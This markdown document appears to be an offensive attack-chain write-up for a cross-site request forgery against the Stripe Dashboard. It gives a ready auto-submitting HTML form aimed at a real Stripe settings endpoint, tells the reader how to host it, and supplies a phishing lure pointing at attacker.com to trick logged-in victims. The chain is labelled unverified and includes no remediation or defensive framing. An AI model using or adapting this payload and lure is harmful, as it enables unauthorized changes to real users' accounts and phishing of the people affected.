

# CSRF Exploitation in Stripe Dashboard for Unauthorized Account Settings Changes

Multi-stage attack chain demonstrating a complete CSRF workflow against the Stripe Dashboard.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser for testing
- Text editor for crafting malicious HTML

### Target Environment

- Web platform
- Stripe Dashboard endpoints for state-changing actions (e.g., email subscription updates)
- No specific ports or services required beyond standard HTTPS (443)

### Initial Access Requirements

- Victim must be authenticated in Stripe Dashboard
- Attacker needs to host a malicious webpage (e.g., via free hosting)
- Social engineering to lure victim (e.g., phishing link)

## Detailed Attack Procedures

### Step 1: Prepare Malicious Webpage
procedure: [[procedures/Exploit-CSRF-in-Stripe-Dashboard]]

**Objective**: Create a webpage that automatically submits a forged request to the vulnerable Stripe endpoint when visited by an authenticated user.

**Instructions**: Craft an HTML page with an auto-submitting form targeting the Stripe Dashboard's email subscription endpoint. Host it on a server accessible via HTTP/HTTPS.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<body>
<form action="https://dashboard.stripe.com/settings/subscriptions" method="POST" id="csrf-form">
  <input type="hidden" name="email_subscription" value="unsubscribe" />
</form>
<script>
document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Save as `malicious.html` and host it (e.g., using Python's SimpleHTTPServer: `python -m http.server 8000`).

**Expected Output**: Page loads and immediately submits the form in the background.

**Success Indicators**:
- Form submission occurs without user interaction
- No CSRF token required in the request

### Step 2: Lure and Execute
procedure: [[procedures/Exploit-CSRF-in-Stripe-Dashboard]]

**Objective**: Trick the authenticated user into visiting the malicious site, triggering the CSRF attack to modify account settings.

**Instructions**: Send a phishing link to the victim (e.g., via email: "Check this urgent update: http://attacker.com/malicious.html"). Ensure the victim is logged into Stripe Dashboard in the same browser session.

Monitor for changes in the victim's account (e.g., via secondary access or self-testing).

To verify vulnerability without victim: Use browser dev tools to simulate while authenticated.

**Expected Output**: Account settings (e.g., email subscriptions) altered without direct access.

**Success Indicators**:
- Victim's email subscription status changes
- No additional authentication prompted for the action

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection via disabled token validation
2. Performed unauthorized limited account modifications
3. Demonstrated potential for social engineering-driven attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
